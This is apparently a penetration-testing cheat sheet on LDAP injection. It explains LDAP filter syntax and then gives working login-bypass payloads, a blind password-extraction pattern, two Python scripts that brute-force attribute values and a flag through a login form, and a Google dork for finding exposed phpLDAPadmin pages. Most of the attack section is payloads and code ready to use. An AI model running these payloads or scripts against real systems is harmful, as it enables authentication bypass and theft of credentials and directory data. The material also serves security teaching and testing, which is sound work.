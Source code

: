 # LDAP Injection

## **LDAP**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

**Ports 389 y 636**

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filter** = \( filtercomp \)  
**Filtercomp** = and / or / not / item  
**And** = & filterlist  
**Or** = \|filterlist  
**Not** = ! filter  
**Filterlist** = 1\*filter  
**Item**= simple / present / substring  
**Simple** = attr filtertype assertionvalue  
**Filtertype** =   _'='  /  '~=' / '&gt;=' / '&lt;='_  
**Present** = attr = \*  
**Substring** = attr ”=” \[initial\] \* \[final\]  
**Initial** = assertionvalue  
**Final** = assertionvalue  
**\(&\)** = Absolute TRUE  
**\(\|\)** = Absolute FALSE

For example:  
\(&\(!\(objectClass=Impresoras\)\)\(uid=s\*\)\)  
\(&\(objectClass=user\)\(uid=\*\)\)

You can access to the database, and this can content information of a lot of different types.

The backups of LDAP uses the extension _ldif_

**OpenLDAP**: If 2 filters arrive, only executes the first one.  
**ADAM or Microsoft LDS**: With 2 filters they throw an error.  
**SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: _&_ or _\|_  
Example: _\(&\(directory=val1\)\(folder=public\)\)_

\(&\(objectClass=VALUE1\)\(type=Epson\*\)\)  
VALUE1 = _\*\)\(ObjectClass=\*\)\)\(&\(objectClass=void_

Then: _\(&\(objectClass=**\*\)\(ObjectClass=\*\)\)**_ will be the first filter \(the one executed\).

## Login Bypass

LDAP supports several formats to store the password: clear, md5, smd5, sh1, ssha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.

```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSO then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

[LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_FUZZ.txt)  
[LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_attributes.txt)  
[LDAP\_authBypass](https://feelsec.info/wp-content/uploads/2018/11/LDAP_authBypass.txt)

## Blind LDAP Injection

You can iterate over the ascii letters, digits and symbols:

```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```

## Scripts

### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of ****[**default LDAP attributes here**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)**.**

```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break
            
            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```

### **Special Blind LDAP Injection \(without "\*"\)**

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks

```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)

